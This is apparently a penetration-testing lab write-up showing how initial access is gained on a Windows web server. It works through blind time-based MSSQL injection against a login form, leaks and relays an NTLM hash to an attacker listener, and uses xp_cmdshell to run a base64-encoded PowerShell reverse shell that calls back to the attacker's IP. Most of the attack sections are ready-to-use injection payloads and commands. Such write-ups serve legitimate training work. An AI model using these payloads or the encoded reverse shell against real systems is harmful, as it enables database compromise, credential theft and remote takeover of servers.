






---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Obtaining Initial Access

As it stands there are not that many potential attack vectors. The most readily apparent is the SQLi that was found on WS2 (`192.168.X.121`) (I currently call it `WS2` because it is the second Web Server in the network). Given that this seems the most exploitable it is probably worth starting there.

## SQLi

The first step is to figure out how to get "normal" SQL execution. I mess around with the parameters for awhile and find that putting anything in the username field followed by `' --` results in normal execution:

<figure><figcaption><p>Getting normal operation</p></figcaption></figure>

Obviously the login fails but it tells me how the query works. In this case invalid credentials is a good thing. It means the query ran "correctly" from the web application's perspective.

### Column Count

I start by trying to figure out the number of columns in the exposed query:

```sql
1' ORDER BY 1 -- -
```

This works correctly (invalid credentials) and I increment the number until it fails which happens at `3`:

<figure><figcaption><p>Failed ORDER BY</p></figcaption></figure>

This tells me there are 2 columns in the output. The issue now arises that there is no way to view the output of the query. Failed logins just get tossed into the "Invalid Credentials" bin.

### Time-Based

Unfortunately the blindness means that this is likely a time-based scenario. I test if time-based works with the query:

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'; -- -
```

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'; -- -
```

The page hung on the first for the expected 10 seconds and loaded instantly on the second. Seems like I'm in business here.

#### Finding a Credentials Table

To find a table name I am going to use the same method as in the [Butch lab](../../practice-labs/windows/butch.md#finding-credentials-table):


```sql
'; IF ((SELECT count(name) FROM sys.tables WHERE name = 'usernames' )=1) WAITFOR DELAY '0:0:10'; -- -
```


I just try different things until I get a hit. Luckily it happens on my second try with `users`, the page takes the 10 seconds to load and I know a table name.

#### Getting Column Names

I can try guessing exact column names using the query structure:


```sql
SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name = 'username'
```


* Query will return `1` if column called `username` exists and `0` if not

This is combined with my injection query:


```bash
'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name = 'username')=1) WAITFOR DELAY '0:0:10'; -- -
```


There is a column `username`.

A second method is to use SQLMap-like queries the involve a wildcard to speed up some guessing:


```sql
SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name LIKE 'password%'
```



```sql
'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name LIKE 'password%')>=1) WAITFOR DELAY '0:0:10'; -- -
```


* Change to `>=1` instead of `=1`. This is to avoid false negatives if there were 2 columns that start with `password%`. E.g. `password_hash` and `password_salt`

Now to validate whether it is password or something else I check for equality:


```sql
'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users' AND c.name = 'password')=1) WAITFOR DELAY '0:0:10'; -- -
```


This takes 10 seconds to load.

I now know 2 important column names: `username` and `password`.

#### Finding a User

The next bit of information I hope to leak is a username. To so this I will user another SQLMap-like query:


```sql
(SELECT count(username) FROM users WHERE username LIKE 'a%
```



```sql
'; IF ((SELECT count(username) FROM users WHERE username LIKE 'a%')>0) WAITFOR DELAY '0:0:10'; -- -
```


I actually got all the way to z with no delay. At this point I decided to check if there even was a user:

```sql
SELECT count(username) FROM users
```

```sql
'; IF ((SELECT count(username) FROM users)>0) WAITFOR DELAY '0:0:10'; -- -
```

No delay. No users.

#### Creating a User

I decide to insert a user. To do this I need to know the table structure. I already know the username and password columns exist. I am hoping that's it so I check with:


```sql
SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users'
```



```sql
'; IF ((SELECT count(c.name) FROM sys.columns c, sys.tables t WHERE c.object_id = t.object_id AND t.name = 'users')=2) WAITFOR DELAY '0:0:10'; -- -
```


This hangs for 10 seconds so I know the columns are just username and password:

```sql
INSERT INTO users VALUES ('offsec', 'offsec')
```

```sql
'; INSERT INTO users VALUES ('offsec', 'offsec'); -- -
```

This seems to run successfully. I check it with the following query:


```sql
'; IF ((SELECT count(username) FROM users WHERE username='offsec')>0) WAITFOR DELAY '0:0:10'; -- -
```


Unfortunately I cannot login with these credentials on the site. It seems this may not be the way in.

### Hash Leak

I decide to see if I can leak the database user's hash to a responder session using `xp_dirtree`:

```sql
EXEC master.dbo.xp_dirtree '\\192.168.45.154\resp
```


```sql
' OR 1=1; EXEC master.dbo.xp_dirtree '\\192.168.45.154\resp'; -- -
```


This works and I capture a hash:

<figure><figcaption></figcaption></figure>

#### Cracking the Hash

I try cracking the hash with `hashcat` but it fails:


```bash
hashcat -m 5600 -a 0 -o web02.cracked -r /usr/share/hashcat/rules/best64.rule web02.ntlm2 passwords.txt
```


* `passwords.txt` was the wordlist generated with CeWL for this site combined with `rockyou.txt`

#### Relaying the Hash

I decide to attempt relaying the hash back to the system to see if I can authenticate as the database user:

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.161.121 -c "powershell -nop -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA0ACIALAAxADMANQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
```

* The PowerShell command is just an encoded reverse shell

Unfortunately this fails:

<figure><figcaption><p>Failed hash relay</p></figcaption></figure>

Perhaps this is not the path either.

### Code Execution

I should have just started here. I check code execution via `xp_cmdshell`. Always test this first. Anyway...I first just run a basic whoami command to see if it errors:

```sql
EXEC master.dbo.xp_cmdshell 'whoami'
```


```sql
'; EXEC master.dbo.xp_cmdshell 'whoami'; -- -
```


It does not. Next I decide to try listing a share to be caught by a responder session. The reason I do this is I know that SMB is open (captured share earlier) and therefore if I capture a hash it is some external way to validate my code execution works and I am not wasting time:

```sql
EXEC master.dbo.xp_cmdshell 'dir \\192.168.45.154\resp'
```


```sql
'; EXEC master.dbo.xp_cmdshell 'dir \\192.168.45.154\resp'; -- -
```


I catch a hash (technically it was skipped but that means the hash was presented as desired):

<figure><figcaption><p>Hash presented</p></figcaption></figure>

I have validated code execution via `xp_cmdshell`. Now to leverage it into RCE.

#### PowerShell Reverse Shell

My first attempt is just using a revshells PowerShell plus a `-nop` flag:

```powershell
powershell -nop -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA0ACIALAAxADMANQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

This is combined with my injection query:

```sql
'; EXEC master.dbo.xp_cmdshell 'powershell -nop -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA0ACIALAAxADMANQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA='; -- -
```

When run I catch an incoming shell:

<figure><figcaption><p>Caught user shell</p></figcaption></figure>

Initial foothold achieved on `WEB02` as `mssql$sqlexpress`.
